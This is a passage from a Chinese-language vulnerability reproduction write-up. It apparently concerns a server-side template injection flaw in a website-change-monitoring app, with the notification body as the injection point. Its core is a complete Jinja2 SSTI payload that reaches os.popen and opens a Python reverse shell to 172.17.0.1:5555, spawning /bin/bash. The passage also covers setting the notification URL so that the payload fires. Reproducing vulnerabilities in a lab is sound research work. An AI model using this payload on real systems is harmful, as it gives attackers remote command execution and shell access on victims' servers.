 然后随便在网站目录下创建个index.html。接着回到控制台创建watch

![image-20240922233140954](/assets/images/image-20240922233140954-20250705113328-umf4gk9.png)

从exp中可以发现触发ssti的点位是notification_body

![image-20240922233234443](/assets/images/image-20240922233234443-20250705113328-5z01slc.png)

我们在notification body中加入payload，这个payload要修改一下格式。

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"172.17.0.1\",5555));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}{% endif %}{% endfor %}
```

同时记得设置Notification URL List，否则不会发送notification。
